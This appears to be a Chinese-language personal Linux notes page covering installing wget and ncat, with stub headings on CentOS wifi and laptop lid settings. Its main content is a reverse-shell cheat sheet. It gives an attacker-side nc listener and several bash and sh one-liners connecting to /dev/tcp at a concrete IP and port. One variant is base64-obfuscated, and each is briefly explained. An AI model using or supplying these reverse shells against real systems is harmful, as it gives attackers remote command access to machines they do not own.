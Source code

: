 

##### 安装 wget

```shell
sudo yum install wget

```



##### 安装 ncat

```shell
yum install -y nc

#攻击机使用nc监听
nc -nvlp 4444

-n: 不反向解析dns，即不通过ip解析域名 no dns
-v: 详细信息输出 verbose
-l: 监听 listen
-p: 指定端口 port

#bash反弹
bash -i >& /dev/tcp/攻击机ip/攻击机port 0>&1
bash -i >& /dev/tcp/8.129.220.131/4444 0>&1

#base64版
#在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEyOS4yMjAuMTMxLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}

#其他版本
/bin/bash -i > /dev/tcp/8.129.220.131/4444 0<& 2>&1
exec /bin/sh 0</dev/tcp/8.129.220.131/4444 1>&0 2>&0
0<&196;exec 196<>/dev/tcp/8.129.220.131/4444; sh <&196 >&196 2>&196


bash -i：交互式shell
>& :输入输出重定向：0 stdin, 1 stdout, 2 stderr
/dev/tcp/ip/port: 特殊文件

注: /dev/tcp/ 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。


```



##### CentOS 配置无线网络，开启wifi

- [CentOS 配置无线网络，开启wifi](https://www.cnblogs.com/asker009/p/10212045.html)



##### 设置笔记本合盖不休眠
